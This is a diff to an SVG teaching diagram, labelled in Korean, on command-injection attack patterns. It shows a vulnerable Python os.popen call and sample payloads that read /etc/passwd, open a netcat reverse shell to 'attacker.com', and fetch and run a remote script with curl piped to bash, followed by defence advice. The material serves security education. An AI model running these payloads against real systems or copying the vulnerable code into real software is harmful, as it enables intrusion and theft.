

- <svg xmlns="http://www.w3.org/2000/svg" width="880" height="460" viewBox="0 0 880 460">
-   <rect width="880" height="460" fill="#0a0a0a" rx="12" />
+ <svg xmlns="http://www.w3.org/2000/svg" width="880" height="496" viewBox="0 0 880 496">
+   <rect width="880" height="496" fill="#0a0a0a" rx="12" />
  <defs>
    <marker id="arr" viewBox="0 0 14 14" refX="12" refY="7" markerUnits="userSpaceOnUse" markerWidth="14" markerHeight="14" orient="auto">
      <path d="M 0 0 L 13 7 L 0 14 z" fill="#e05555" />
    </marker>
  </defs>
  <text x="440" y="46" text-anchor="middle" font-family="'Wanted Sans Variable','Wanted Sans',-apple-system,sans-serif" font-size="22" font-weight="700" fill="#e8e8e8">커맨드 인젝션 공격 패턴</text>
  <text x="440" y="72" text-anchor="middle" font-family="'Wanted Sans Variable','Wanted Sans',-apple-system,sans-serif" font-size="13" fill="#888">OS Shell 명령어가 사용자 입력을 그대로 해석할 때 발생</text>
  <rect x="60" y="96" width="760" height="74" rx="8" fill="#000000" stroke="#e05555" stroke-width="1.5" />
  <text xml:space="preserve" x="80" y="120" font-family="'JetBrains Mono','Menlo','Consolas',monospace" font-size="12" fill="#9aa4b8"># 취약한 Python 서버 코드</text>
  <text xml:space="preserve" x="80" y="140" font-family="'JetBrains Mono','Menlo','Consolas',monospace" font-size="12" fill="#7ec8e3" font-weight="600">import</text>
  <text xml:space="preserve" x="130" y="140" font-family="'JetBrains Mono','Menlo','Consolas',monospace" font-size="12" fill="#ffffff"> os</text>
  <text xml:space="preserve" x="80" y="160" font-family="'JetBrains Mono','Menlo','Consolas',monospace" font-size="12" fill="#e05555">result = os.popen(f"ping -c 1 {host}").read()</text>
  <text xml:space="preserve" x="580" y="160" font-family="'JetBrains Mono','Menlo','Consolas',monospace" font-size="12" fill="#9aa4b8">  # host = req input</text>
  <text x="440" y="200" text-anchor="middle" font-family="'Wanted Sans Variable','Wanted Sans',-apple-system,sans-serif" font-size="14" font-weight="600" fill="#e8e8e8">쉘 메타문자를 이용한 명령어 연결</text>
-   <rect x="60" y="216" width="360" height="188" rx="8" fill="#000000" stroke="#3a4a6e" stroke-width="1.5" />
+   <rect x="60" y="216" width="360" height="218" rx="8" fill="#000000" stroke="#3a4a6e" stroke-width="1.5" />
  <text xml:space="preserve" x="80" y="240" font-family="'JetBrains Mono','Menlo','Consolas',monospace" font-size="12" fill="#9aa4b8"># ; 으로 추가 명령 실행</text>
  <text xml:space="preserve" x="80" y="260" font-family="'JetBrains Mono','Menlo','Consolas',monospace" font-size="12" fill="#e05555">8.8.8.8; cat /etc/passwd</text>
  <text xml:space="preserve" x="80" y="280" font-family="'JetBrains Mono','Menlo','Consolas',monospace" font-size="12" fill="#9aa4b8"># &amp;&amp; (앞 성공 시 실행)</text>
  <text xml:space="preserve" x="80" y="300" font-family="'JetBrains Mono','Menlo','Consolas',monospace" font-size="12" fill="#e05555">8.8.8.8 &amp;&amp; id &amp;&amp; whoami</text>
  <text xml:space="preserve" x="80" y="320" font-family="'JetBrains Mono','Menlo','Consolas',monospace" font-size="12" fill="#9aa4b8"># | 파이프</text>
  <text xml:space="preserve" x="80" y="340" font-family="'JetBrains Mono','Menlo','Consolas',monospace" font-size="12" fill="#e05555">8.8.8.8 | nc attacker.com 4444 -e /bin/sh</text>
  <text xml:space="preserve" x="80" y="360" font-family="'JetBrains Mono','Menlo','Consolas',monospace" font-size="12" fill="#9aa4b8"># 백틱 / $() 치환</text>
  <text xml:space="preserve" x="80" y="380" font-family="'JetBrains Mono','Menlo','Consolas',monospace" font-size="12" fill="#e05555">$(curl attacker.com/shell.sh | bash)</text>
  <text xml:space="preserve" x="80" y="400" font-family="'JetBrains Mono','Menlo','Consolas',monospace" font-size="12" fill="#9aa4b8"># 개행문자 우회</text>
-   <rect x="460" y="216" width="360" height="188" rx="8" fill="#1a0f0f" stroke="#e05555" stroke-width="1.5" />
-   <text x="640" y="244" text-anchor="middle" font-family="'Wanted Sans Variable','Wanted Sans',-apple-system,sans-serif" font-size="14" font-weight="600" fill="#e05555">공격 영향</text>
-   <text x="640" y="272" text-anchor="middle" font-family="'Wanted Sans Variable','Wanted Sans',-apple-system,sans-serif" font-size="13" font-weight="600" fill="#e8e8e8">원격 코드 실행 (RCE)</text>
-   <text x="640" y="292" text-anchor="middle" font-family="'Wanted Sans Variable','Wanted Sans',-apple-system,sans-serif" font-size="12" fill="#888">서버 완전 장악</text>
-   <text x="640" y="316" text-anchor="middle" font-family="'Wanted Sans Variable','Wanted Sans',-apple-system,sans-serif" font-size="13" font-weight="600" fill="#e8e8e8">리버스 쉘</text>
-   <text x="640" y="336" text-anchor="middle" font-family="'Wanted Sans Variable','Wanted Sans',-apple-system,sans-serif" font-size="12" fill="#888">지속적 원격 접근</text>
-   <text x="640" y="360" text-anchor="middle" font-family="'Wanted Sans Variable','Wanted Sans',-apple-system,sans-serif" font-size="13" font-weight="600" fill="#e8e8e8">파일 시스템 접근</text>
-   <text x="640" y="380" text-anchor="middle" font-family="'Wanted Sans Variable','Wanted Sans',-apple-system,sans-serif" font-size="12" fill="#888">/etc/shadow, 비밀키 탈취</text>
-   <text x="640" y="400" text-anchor="middle" font-family="'Wanted Sans Variable','Wanted Sans',-apple-system,sans-serif" font-size="12" fill="#e05555">★ 가장 심각한 인젝션 유형</text>
-   <rect x="60" y="420" width="760" height="28" rx="6" fill="#0f1a0f" stroke="#55c555" stroke-width="1" />
-   <text x="440" y="438" text-anchor="middle" font-family="'Wanted Sans Variable','Wanted Sans',-apple-system,sans-serif" font-size="12" fill="#55c555">방어: subprocess.run(args_list) + shell=False — 사용자 입력을 절대 쉘에 직접 전달하지 말 것</text>
+   <text xml:space="preserve" x="80" y="420" font-family="'JetBrains Mono','Menlo','Consolas',monospace" font-size="12" fill="#e05555">8.8.8.8%0Aid</text>
+   <rect x="460" y="216" width="360" height="218" rx="8" fill="#1a0f0f" stroke="#e05555" stroke-width="1.5" />
+   <text x="640" y="254" text-anchor="middle" font-family="'Wanted Sans Variable','Wanted Sans',-apple-system,sans-serif" font-size="14" font-weight="600" fill="#e05555">공격 영향</text>
+   <text x="640" y="282" text-anchor="middle" font-family="'Wanted Sans Variable','Wanted Sans',-apple-system,sans-serif" font-size="13" font-weight="600" fill="#e8e8e8">원격 코드 실행 (RCE)</text>
+   <text x="640" y="302" text-anchor="middle" font-family="'Wanted Sans Variable','Wanted Sans',-apple-system,sans-serif" font-size="12" fill="#888">서버 완전 장악</text>
+   <text x="640" y="326" text-anchor="middle" font-family="'Wanted Sans Variable','Wanted Sans',-apple-system,sans-serif" font-size="13" font-weight="600" fill="#e8e8e8">리버스 쉘</text>
+   <text x="640" y="346" text-anchor="middle" font-family="'Wanted Sans Variable','Wanted Sans',-apple-system,sans-serif" font-size="12" fill="#888">지속적 원격 접근</text>
+   <text x="640" y="370" text-anchor="middle" font-family="'Wanted Sans Variable','Wanted Sans',-apple-system,sans-serif" font-size="13" font-weight="600" fill="#e8e8e8">파일 시스템 접근</text>
+   <text x="640" y="390" text-anchor="middle" font-family="'Wanted Sans Variable','Wanted Sans',-apple-system,sans-serif" font-size="12" fill="#888">/etc/shadow, 비밀키 탈취</text>
+   <text x="640" y="410" text-anchor="middle" font-family="'Wanted Sans Variable','Wanted Sans',-apple-system,sans-serif" font-size="12" fill="#e05555">★ 가장 심각한 인젝션 유형</text>
+   <rect x="60" y="448" width="760" height="28" rx="6" fill="#0f1a0f" stroke="#55c555" stroke-width="1" />
+   <text x="440" y="466" text-anchor="middle" font-family="'Wanted Sans Variable','Wanted Sans',-apple-system,sans-serif" font-size="12" fill="#55c555">방어: subprocess.run(args_list) + shell=False — 사용자 입력을 절대 쉘에 직접 전달하지 말 것</text>
</svg>
